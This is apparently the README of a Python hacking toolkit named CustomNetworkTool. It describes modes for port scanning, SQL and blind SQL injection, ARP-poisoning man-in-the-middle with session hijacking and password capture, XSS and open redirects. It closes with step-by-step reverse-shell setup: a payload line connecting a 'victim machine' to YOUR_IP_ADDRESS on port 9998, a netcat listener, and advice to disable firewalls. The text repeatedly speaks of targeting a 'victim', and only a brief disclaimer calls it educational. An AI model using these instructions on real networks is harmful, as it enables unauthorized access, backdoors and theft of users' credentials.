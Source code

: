 # CustomNetworkTool
❗ Do not use it for malicious purposes, it's only for educational purposes.
 Stay in Legal !!!!!

 Unix:
Usage: git clone https://github.com/YusufMarall/CustomNetworkTool.git &&
cd NetworkTool &&
python3 CNtool.py


![Ekran görüntüsü 2024-06-17 155733](https://github.com/YusufMarall/CustomNetworkTool/assets/114530242/eb208ca9-b528-49f3-8ac4-adccd54fd553)


## Remarks and Instructions for Use

This tool is designed to perform various network and security tests. Below you can find each mode and instructions for use.

### if(r==1)
####Scanning Port Similar to  Nmap
I wrote a module similar to Nmap, but faster than Nmap because I only scan specific ports. This works like this:

- If one of the specific ports I scan is open, I can use a network analyzer like Wireshark to monitor the traffic coming through that port. For example, when port 8080 (HTTP) is open, if our victim logs into an HTTP site through this port, I can see sensitive information such as his password.(via arp poisining & reverse shell code)

### if(r==2)
#### Showing Website Content and SQL Injection Attempt
1. **Show Website Content**:
   - Shows the content of the website. If we know JavaScript, we can manipulate this content very easily.

2. **SQL Injection Attempt**:
   - Attempts SQL injection by sending our payloads with specific codes to the URL. If there is a database, this attack can be successful.

### if(r==3)
#### Man-in-the-Middle (MitM) Attack
1. **Man-in-the-Middle (MitM) Attack**:
   - ARP (Address Resolution Protocol): Maps a MAC address to an IP address.
   - ARP Poisoning: A cyber attack technique commonly used in local area networks. Using ARP poisoning, it can monitor and modify the communication between two devices without interrupting it. In this case, it can monitor and modify all traffic between the gateway (router) and the target device. For example, by monitoring the traffic between the gateway and the user, an attacker can intercept sensitive information (passwords, credit card information, etc.) sent by the user.

2. **Data Capture**:
   - With ARP poisoning, the attacker can redirect all network traffic of the target device to his own device and analyze this traffic. In this way, the attacker can capture and record all data passing through the target device.

3. **Session Hijacking**:
   - It can hijack sessions by capturing session cookies. This can be used to take over a user's session and gain unauthorized access to the user's accounts.

4. **Modifying Network Traffic**:
   - Can modify data packets between two devices. For example, it can modify web pages, redirect users to fake websites or inject malware into network traffic.

### if(r==4)
Blind sql injection does injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response and learns the database name
### if(r==5)
#### Reverse Shell and Netcat Usage
Reverse shell code creates payload and works like a backdoor. With Netcat, we can attack file uploading, eavesdropping, etc.

*Step 1: Make sure that the `payload.py` file on the victim machine is using the correct IP address and port. Check that your IP address is correct and the port you are listening on is 9998:
```python
s.connect(('YOUR_IP_ADDRESS', 9998)) # Replace YOUR_IP_ADDRESS with the IP address of your own machine
*Step 2: Set the Listening Machine Correctly
Make sure to start listening with netcat on the listening machine. Make sure you are listening using the correct port:
Linux:
nc -lvp 9998
*Step 3: Check Firewall and Firewalls
Firewalls or network firewalls on the listening machine and the victim machine may be blocking the connection. Try temporarily turning off the firewall on both machines:
Linux:
sudo ufw disable
Windows:ping YOUR_IP_ADDRESS
Step 4: Check Network Connectivity
Make sure that the network connection from the victim machine to the listening machine is working. Check the connection by pinging from the victim machine to the listening machine:
Windows:
ping YOUR_IP_ADDRESS
Linux:
ping YOUR_IP_ADDRESS
Step 5: Perform a Simple Connectivity Test with Netcat
Start listening with netcat on the listening machine:
Linux:
nc -lvp 9998
Try to establish a connection using netcat on the victim machine:
Linux:
nc YOUR_IP_ADDRESS 9998.

### if r==6
###xss Cross-site scripting attack
###Open redirect vulnerability:
Explicit redirection vulnerabilities occur when an application insecurely incorporates user-controllable data into a redirection destination.
An attacker can generate a URL within the application that causes a redirection to an arbitrary external domain.
Hint===?redirect={payload}
